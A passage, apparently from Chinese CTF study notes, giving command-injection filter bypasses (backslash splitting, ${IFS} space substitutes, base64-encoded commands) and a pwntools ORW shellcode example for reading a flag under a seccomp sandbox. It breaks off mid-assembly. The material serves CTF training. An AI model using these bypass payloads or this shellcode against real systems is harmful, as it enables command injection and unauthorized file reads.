 #### 反斜杠绕过

```shell
c/at fl/ag.txt
```

#### 空格代替

```shell
<
${IFS}
$IFS$9
%09
```

#### 编码绕过

```python
`echo 'Y2F0Cg==' | base64 -d`  flag.txt
```

#### ORW：

 CTF中这类PWN题目通常通过禁用execve系统调用添加沙箱，不能直接执行命令getshell ，这个时候就需要用open，read，write这样的函数打开flag

可以通过 seccomp-tools dump ./pwn 来查看文件的沙箱保护。

```python
#orw的例子：
mmap = 0x123000
jmp_rsp = 0x400a01
orw_shellcode  = shellcraft.open("/ctfshow_flag")
orw_shellcode += shellcraft.read(3,mmap,100)
orw_shellcode += shellcraft.write(1,mmap,100)
shellcode = asm(orw_shellcode)	#编写shellcode

payload  = asm(shellcraft.read(0,mmap,0x100))+asm("mov rax,0x123000; jmp rax")
payload  = payload.ljust(0x28,'a')
payload += p64(jmp_rsp)+asm("sub rsp,0x30; jmp rsp")#编写跳转指令

io.sendline(payload)
io.sendline(shellcode)


#用汇编编写shellcode执行orw
shellcode = 
'''
//调用open()
push 0
//绕过strlen()检查
mov r15, 0x67616c66
push r15
mov rdi, rsp
mov rsi, 0
mov rax, 2
syscall
//调用read()
mov r14, 3
mov rdi, r14
mov rsi, rsp
mov rdx, 0xff
mov rax, 0
syscall
//调用write()
mov rdi,1
mov rsi, rsp
mov rdx, 0xff
```